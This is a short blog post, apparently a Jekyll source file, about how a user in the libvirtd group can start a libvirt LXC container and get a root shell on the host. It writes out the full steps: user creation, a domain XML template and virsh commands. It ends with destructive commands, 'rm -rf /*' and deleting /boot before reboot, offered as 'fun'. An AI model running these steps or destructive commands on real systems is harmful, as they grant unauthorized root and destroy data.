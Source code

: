 ```yaml
---
layout: post
title: Docker Container Madness
---
```


Preamble:

  # apt-get install docker virt-manager
  export LIBVIRT_DEFAULT_URI=lxc:///

Create an unprivileged user:

  # useradd -G libvirtd user 

Save the following domXML template

  <domain type='lxc'>
	  <name>container</name>
	  <memory>102400</memory>
	  <os>
		  <type>exe</type>
		  <init>/bin/sh</init>
	  </os>
	  <devices>
		  <console type='pty'/>
	  </devices>
  </domain>

Import container into Libvirt:

  user@host:~$ virsh define container.xml
  
Start the container:

  user@host:~$ virsh start test
  user@host:~$ virsh console test

And now run bash shell:

  Connected to domain test
  Escape character is ^]
  
  # bash
  bash: groups: command not found
  /bin/lesspipe: 1: /bin/lesspipe: basename: not found
  /bin/lesspipe: 1: /bin/lesspipe: dirname: not found
  /bin/lesspipe: 295: [: =: unexpected operator
  Command 'dircolors' is available in '/usr/bin/dircolors'
  The command could not be located because '/usr/bin' is not included in the PATH environment variable.
  dircolors: command not found
  root@host:/# 

You now have root. What kind of messed up world is this? I can read/write to any file:

  root@host:/# rm -rf /*

Or alternatively have a bit of fun

  root@host:/# rm /boot/*; reboot;

Is it possible to be careful with Docker? It doesn't seem safe for mortals.

